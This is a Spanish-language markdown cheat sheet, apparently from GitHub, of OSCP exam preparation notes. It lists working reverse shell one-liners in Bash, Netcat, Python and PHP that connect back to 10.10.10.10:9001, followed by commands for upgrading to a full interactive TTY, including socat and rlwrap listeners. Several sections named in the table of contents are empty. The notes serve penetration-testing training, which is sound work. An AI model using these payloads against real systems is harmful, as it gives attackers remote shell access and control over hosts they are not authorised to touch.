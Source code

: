﻿# Notas de preparación para el OSCP 

**Año : 2021**

![oscp](https://blog.nivel4.com/wp-content/uploads/2019/01/try-harder.png)

**Curso: Penetration Testing with Kali Linux (PEN-200)**

## Contenido
- [Linux](#Linux)  
  - [Reverse shells](#Reverse-shells) 
    - [Bash](#Bash)
    - [Netcat](#Netcat)   
    - [Python](#Python)
    - [PHP](#PHP)
  - [Spawneando una shell mejor](#Spawning-a-TTY-shell)   
  - [Files]  
  - Bypassing restricted shells (rbash , rzsh,etc)    
- [Windows](#Windows)
- 
- [Reverse Shell]

Linux 
=========================================
Técnicas para utilizar en sistemas basados en unix

### Reverse shells

[Reverse shell generator](https://www.revshells.com/)

### Reverse shell comúnes
#### Bash
  ```bash
  bash -i >& /dev/tcp/10.10.10.10/9001 0>&1 
  ```
#### Netcat 
  ```bash
  nc -e /bin/bash 10.10.10.10 9001
  nc -e /bin/sh 10.10.10.10 9001
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
  ```
  
#### Python
  ```bash
  export RHOST="10.10.10.10";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
  
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
  ```
#### PHP 
  ```bash
  php -r '$sock=fsockopen("10.10.10.10",9001);exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);shell_exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);system("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);passthru("bash <&3 >&3 2>&3");'
  /usr/share/webshells/laudanum/php/php-reverse-shell.php
  ```
 
### Spawning a TTY shel
  ```bash 
      python3 -c 'import pty;pty.spawn("/bin/bash")' 
      script /dev/null -c bash 
      \[ctrl+z] 
      stty raw -echo
      fg
    ## Usando rlwrap & script
      rlwrap nc -nlvp 443
      /usr/bin/script -qc /bin/bash /dev/null
    ## Usando socat
      parrot~> socat file:`tty`,raw,echo=0 tcp-listen:4444
      target~> socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
    ## Exportando variables para poder tener una shell full interactiva
      export TERM=xterm-256color
      export SHELL=bash
      alias ll='ls -lsaht –color=auto'
  ```
